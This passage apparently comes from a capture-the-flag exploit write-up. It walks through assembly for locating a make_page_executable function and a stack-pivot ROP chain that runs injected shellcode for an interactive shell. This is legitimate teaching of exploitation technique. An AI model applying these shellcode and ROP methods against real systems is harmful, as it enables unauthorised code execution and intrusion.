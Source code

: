 There we go, we'll start writing *after* where the problem triggered
before. B-e-a-utiful.

### Shellcode's in memory, almost done, right?

Now all we have to do is make the page executable. Of course the first
thing to try is to try to somehow put 7 into rdx AND put our saved address
into rdi then call mmap, but of course this is impossible to do in only
four bytes.

### Isn't there a function already for this?

Our shellcode isn't self-modifying so it doesn't matter if the buffer is no
longer writable. Time to get a pointer to the make_page_executable
function.

<pre>
lea r14, [r13-0x7f]
lea r15, [r14-0x7f]
lea r14, [r15-0x80]
lea r15, [r14-0x7f]
lea r14, [r15-0x7f]
lea r15, [r14-0x7f]
lea r14, [r15-0x7f]
lea r15, [r14-0x7f]
lea r14, [r15-0x7f]
lea r15, [r14-0x7f]
lea r14, [r15-0x7f]
lea r15, [r14-0x6a]
add r15, 0x1
</pre>
r15 now has the pointer to make_page_executable. Great, now we're cooking!

...Wait, how can I set rdi to our shellcode (saved off in r14) AND call
make_page_executable in r15 in four bytes or less? Spoiler alert: it can't
be done.

### Time to ROP

When all else fails, ROP! It would be quite a pain to try to write our rop
chain to another rw mapping in memory (since we're going to make the
mapping in our shellcode buffer no longer writable and our shellcode uses
the stack), so we're just going to reuse some stack space.
<pre>
mov r15, rsp
ret
mov [r15+0x60], r13
mov [r15+0x58], r14
lea rsp, [r15+0x50]
</pre>
This triggers the ROP to pop rdi (the page start of where our shellcode
is), ret to make_page_executable, then ret to our shellcode where we get an
interactive shell.
